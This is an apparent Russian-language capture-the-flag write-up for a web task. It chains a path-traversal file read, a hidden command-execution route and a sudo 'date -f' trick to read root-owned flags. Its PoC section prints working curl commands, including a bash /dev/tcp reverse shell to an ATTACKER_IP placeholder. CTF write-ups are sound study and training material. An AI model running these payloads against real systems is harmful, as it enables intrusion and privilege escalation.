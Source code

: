 # Супер Тачки

**Категория:** Web — LFI → RCE → Privilege Escalation

## Кратко

Найден LFI в `/images/?img=...` — скачал `app.py`. В нём есть `/shellfordev/`, выполняющая `cmd` через `os.popen()` → RCE. Через неё подтвердил выполнение `ls`, поднял reverse shell и прочитал флаги. Второй флаг прочитал командой `sudo date -f /root/second_flaf`.

## Шаги (чуть подробнее, но коротко)

1. **Проверка `/images/`** — `GET /images/?img=img1.jpg` возвращает `./images/{img}`.
2. **LFI** — `GET /images/?img=./../app.py` → получили `app.py`.
3. **Анализ `app.py`** — есть маршрут `/shellfordev/` выполняющий `cmd` через `os.popen()`.
4. **Подтверждение RCE** — `GET /shellfordev/?cmd=ls`.
5. **Reverse shell** — на атакующем: `nc -lvnp 4444`; вызвать через `curl "http://host/shellfordev/?cmd=bash+-i+%3E%26+/dev/tcp/ATTACKER_IP/4444+0%3E%261"`.
6. **Чтение флагов** — `cat` обычных флагов; второй флаг: `sudo date -f /root/second_flaf`.

## PoC
```bash
curl "http://5.129.245.132:5535/images/?img=./../app.py" -o app.py
curl "http://5.129.245.132:5535/shellfordev/?cmd=ls"
# Reverse shell (замените ATTACKER_IP)
nc -lvnp 4444
curl "http://5.129.245.132:5535/shellfordev/?cmd=bash+-i+%3E%26+/dev/tcp/ATTACKER_IP/4444+0%3E%261"
# После получения shell
ls -la
sudo date -f /root/second_flaf
```
